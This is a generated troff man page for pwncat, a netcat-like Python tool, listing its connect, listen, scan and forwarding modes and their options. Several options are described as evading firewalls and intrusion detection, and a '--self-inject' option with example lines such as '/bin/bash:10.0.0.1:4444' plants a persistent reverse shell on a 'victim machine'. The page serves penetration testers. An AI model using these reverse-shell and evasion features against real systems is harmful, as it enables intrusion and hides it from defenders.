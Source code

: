 .\" DO NOT MODIFY THIS FILE!  It was generated by help2man 1.47.11.
.TH PWNCAT: "1" "May 2020" "https://github.com/cytopia/pwncat" "User Commands"
.SH NAME
pwncat: \- pwncat
.SH DESCRIPTION
usage: pwncat [\-Cnuv] [\-e cmd] hostname port
.IP
pwncat [\-Cnuv] [\-e cmd] \fB\-l\fR [hostname] port
pwncat [\-Cnuv] \fB\-z\fR hostname port
pwncat [\-Cnuv] \fB\-L\fR [addr:]port hostname port
pwncat [\-Cnuv] \fB\-R\fR addr:port hostname port
pwncat \fB\-V\fR, \fB\-\-version\fR
pwncat \fB\-h\fR, \fB\-\-help\fR
.PP
Enhanced and comptaible Netcat implementation written in Python (2 and 3) with
connect, zero\-i/o, listen and forward modes and techniques to detect and evade
firewalls and intrusion detection/prevention systems.
.PP
If no mode arguments are specified, pwncat will run in connect mode and act as
a client to connect to a remote endpoint. If the connection to the remote
endoint is lost, pwncat will quit. See advanced options for how to automatically
reconnect.
.SS "positional arguments:"
.TP
hostname
Address to listen, forward or connect to.
.TP
port
[All modes]
Single port to listen, forward or connect to.
[Zero\-I/O mode]
Specify multiple ports to scan:
Via list:  4444,4445,4446
Via range: 4444\-4446
Via incr:  4444+2
.SS "mode arguments:"
.TP
\fB\-l\fR, \fB\-\-listen\fR
[Listen mode]:
Start a server and listen for incoming connections.
If using TCP and a connected client disconnects or the
connection is interrupted otherwise, the server will
quit. See \fB\-k\fR/\-\-keep\-open to change this behaviour.
.TP
\fB\-z\fR, \fB\-\-zero\fR
[Zero\-I/0 mode]:
Connect to a remote endpoint and report status only.
Used for port scanning.
.TP
\fB\-L\fR [addr:]port, \fB\-\-local\fR [addr:]port
[Local forward mode]:
This mode will start a server and a client internally.
The internal server will listen locally on specified
addr/port (given by \fB\-\-local\fR [addr:]port).
The server will then forward traffic to the internal
client which connects to another server specified by
hostname/port given via positional arguments.
(I.e.: proxies a remote service to a local address)
.TP
\fB\-R\fR addr:port, \fB\-\-remote\fR addr:port
[Remote forward mode]:
This mode will start two clients internally. One is
connecting to the target and one is connecting to
another pwncat/netcat server you have started somewhere. Once connected, it will then proxy traffic
between you and the target.
This mode should be applied on machines that block
incoming traffic and only allow outbound.
The connection to your listening server is given by
\fB\-R\fR/\-\-remote addr:port and the connection to the
target machine via the positional arguments.
.SS "optional arguments:"
.TP
\fB\-4\fR
Only Use IPv4 instead of both, IPv4 and IPv6.
.TP
\fB\-6\fR
Only Use IPv6 instead of both, IPv4 and IPv6.
.TP
\fB\-e\fR cmd, \fB\-\-exec\fR cmd
Execute shell command. Only for connect or listen mode.
.TP
\fB\-C\fR lf, \fB\-\-crlf\fR lf
Specify, 'lf', 'crlf' or 'cr' to always force replacing
line endings for input and outout accordingly. Specify
\&'no' to completely remove any line feeds. By default
it will not replace anything and takes what is entered
(usually CRLF on Windows, LF on Linux and some times
CR on MacOS).
.TP
\fB\-n\fR, \fB\-\-nodns\fR
Do not resolve DNS.
.TP
\fB\-u\fR, \fB\-\-udp\fR
Use UDP for the connection instead of TCP.
.TP
\fB\-T\fR str, \fB\-\-tos\fR str
Specifies IP Type of Service (ToS) for the connection.
Valid values are the tokens 'mincost', 'lowcost',
\&'reliability', 'throughput' or 'lowdelay'.
.TP
\fB\-\-source\-addr\fR addr
Specify the source IP address of the interface for connect mode.
.TP
\fB\-\-source\-port\fR port
Specify the source port for connect mode.
.TP
\fB\-v\fR, \fB\-\-verbose\fR
Be verbose and print info to stderr. Use \fB\-v\fR, \fB\-vv\fR, \fB\-vvv\fR
or \fB\-vvvv\fR for more verbosity. The server performance will
decrease drastically if you use more than three times.
.TP
\fB\-\-info\fR type
Show additional info about sockets, ip4/6 or tcp opts
applied to the current socket connection. Valid
parameter are 'sock', 'ipv4', 'ipv6', 'tcp' or 'all'.
Note, you must at least be in INFO verbose mode in order
to see them (\fB\-vv\fR).
.TP
\fB\-c\fR str, \fB\-\-color\fR str
Colored log output. Specify 'always', 'never' or 'auto'.
In 'auto' mode, color is displayed as long as the output
goes to a terminal. If it is piped into a file, color
will automatically be disabled. This mode also disables
color on Windows by default. (default: auto)
.SS "command & control arguments:"
.TP
\fB\-\-self\-inject\fR cmd:host:port[s]
Listen mode (TCP only):
If you are about to inject a reverse shell onto the
victim machine (via php, bash, nc, ncat or similar),
start your listening server with this argument.
This will then (as soon as the reverse shell connects)
automatically deploy and background\-run an unbreakable
pwncat reverse shell onto the victim machine which then
also connects back to you with specified arguments.
Example: '\-\-self\-inject /bin/bash:10.0.0.1:4444'
It is also possible to launch multiple reverse shells by
specifying multiple ports.
Via list:  \fB\-\-self\-inject\fR /bin/sh:10.0.0.1:4444,4445,4446
Via range: \fB\-\-self\-inject\fR /bin/sh:10.0.0.1:4444\-4446
Via incr:  \fB\-\-self\-inject\fR /bin/sh:10.0.0.1:4444+2
Note: this is currently an experimental feature and does
not work on Windows remote hosts yet.
.SS "advanced arguments:"
.TP
\fB\-\-script\-send\fR file
All modes (TCP and UDP):
A Python scripting engine to define your own custom
transformer function which will be executed before
sending data to a remote endpoint. Your file must
contain the exact following function which will:
be applied as the transformer:
def transform(data, pse):
.TP
# NOTE: the function name must be 'transform'
# NOTE: the function param name must be 'data'
# NOTE: indentation must be 4 spaces
# ... your transformations goes here
return data
.TP
You can also define as many custom functions or classes
within this file, but ensure to prefix them uniquely to
not collide with pwncat's function or classes, as the
file will be called with exec().
.TP
\fB\-\-script\-recv\fR file
All modes (TCP and UDP):
A Python scripting engine to define your own custom
transformer function which will be executed after
receiving data from a remote endpoint. Your file must
contain the exact following function which will:
be applied as the transformer:
def transform(data, pse):
.TP
# NOTE: the function name must be 'transform'
# NOTE: the function param name must be 'data'
# NOTE: indentation must be 4 spaces
# ... your transformations goes here
return data
.TP
You can also define as many custom functions or classes
within this file, but ensure to prefix them uniquely to
not collide with pwncat's function or classes, as the
file will be called with exec().
.TP
\fB\-\-http\fR
Connect / Listen / Local forward mode (TCP only):
Hide traffic in http packets to fool Firewalls/IDS/IPS.
.TP
\fB\-\-https\fR
Connect / Listen / Local forward mode (TCP only):
Hide traffic in https packets to fool Firewalls/IDS/IPS.
.TP
\fB\-k\fR, \fB\-\-keep\-open\fR
Listen mode (TCP only):
Re\-accept new clients in listen mode after a client has
disconnected or the connection is unterrupted otherwise.
(default: server will quit after connection is gone)
.TP
\fB\-\-rebind\fR [x]
Listen mode (TCP and UDP):
If the server is unable to bind, it will re\-initialize
itself x many times before giving up. Omit the
quantifier to rebind endlessly or specify a positive
integer for how many times to rebind before giving up.
See \fB\-\-rebind\-robin\fR for an interesting use\-case.
(default: fail after first unsuccessful try).
.TP
\fB\-\-rebind\-wait\fR s
Listen mode (TCP and UDP):
Wait x seconds between re\-initialization. (default: 1)
.TP
\fB\-\-rebind\-robin\fR port
Listen mode (TCP and UDP):
If the server is unable to initialize (e.g: cannot bind
and \fB\-\-rebind\fR is specified, it it will shuffle ports in
round\-robin mode to bind to.
Use comma separated string such as '80,81,82,83', a range
of ports '80\-83' or an increment '80+3'.
Set \fB\-\-rebind\fR to at least the number of ports to probe +1
This option requires \fB\-\-rebind\fR to be specified.
.TP
\fB\-\-reconn\fR [x]
Connect mode / Zero\-I/O mode (TCP only):
If the remote server is not reachable or the connection
is interrupted, the client will connect again x many
times before giving up. Omit the quantifier to retry
endlessly or specify a positive integer for how many
times to retry before giving up.
(default: quit if the remote is not available or the
connection was interrupted)
This might be handy for stable TCP reverse shells ;\-)
.TP
\fB\-\-reconn\-wait\fR s
Connect mode / Zero\-I/O mode (TCP only):
Wait x seconds between re\-connects. (default: 1)
.TP
\fB\-\-reconn\-robin\fR port
Connect mode / Zero\-I/O mode (TCP only):
If the remote server is not reachable or the connection
is interrupted and \fB\-\-reconn\fR is specified, the client
will shuffle ports in round\-robin mode to connect to.
Use comma separated string such as '80,81,82,83', a range
of ports '80\-83' or an increment '80+3'.
Set \fB\-\-reconn\fR to at least the number of ports to probe +1
This helps reverse shell to evade intrusiona prevention
systems that will cut your connection and block the
outbound port.
This is also useful in Connect or Zero\-I/O mode to
figure out what outbound ports are allowed.
.TP
\fB\-w\fR s, \fB\-\-wait\fR s
Connect mode (TCP only):
If a connection and stdin are idle for more than s sec,
then the connection is silently closed and the client
will exit. (default: wait forever).
Note: if \fB\-\-reconn\fR is specified, the connection will be
re\-opened.
.TP
\fB\-\-ping\-init\fR
Connect mode / Zero\-I/O mode (TCP and UDP):
UDP is a stateless protocol unlike TCP, so no handshake communication takes place and the client just
sends data to a server without being "accepted" by
the server first.
This means a server waiting for an UDP client to
connect to, is unable to send any data to the client,
before the client hasn't send data first. The server
simply doesn't know the IP address before an initial
connect.
The \fB\-\-ping\-init\fR option instructs the client to send one
single initial ping packet to the server, so that it is
able to talk to the client.
This is the only way to make a UDP reverse shell work.
See \fB\-\-ping\-word\fR for what char/string to send as initial
ping packet (default: '\e0')
.TP
\fB\-\-ping\-intvl\fR s
Connect mode / Zero\-I/O mode (TCP and UDP):
Instruct the client to send ping intervalls every s sec.
This allows you to restart your UDP server and just wait
for the client to report back in. This might be handy
for stable UDP reverse shells ;\-)
See \fB\-\-ping\-word\fR for what char/string to send as initial
ping packet (default: '\e0')
.TP
\fB\-\-ping\-word\fR str
Connect mode / Zero\-I/O mode (TCP and UDP):
Change the default character '\e0' to use for upd ping.
Single character or strings are supported.
.TP
\fB\-\-ping\-robin\fR port
Connect mode / Zero\-I/O mode (TCP and UDP):
Instruct the client to shuffle the specified ports in
round\-robin mode for a remote server to ping.
This might be handy to scan outbound allowed ports.
Use comma separated string such as '80,81,82,83', a range
of ports '80\-83' or an increment '80+3'.
Use \fB\-\-ping\-intvl\fR 0 to be faster.
.TP
\fB\-\-safe\-word\fR str
All modes:
If pwncat is started with this argument, it will shut
down as soon as it receives the specified string. The
\fB\-\-keep\-open\fR (server) or \fB\-\-reconn\fR (client) options will
be ignored and it won't listen again or reconnect to you.
Use a very unique string to not have it shut down
accidentally by other input.
.SS "misc arguments:"
.TP
\fB\-h\fR, \fB\-\-help\fR
Show this help message and exit
.TP
\fB\-V\fR, \fB\-\-version\fR
Show version information and exit
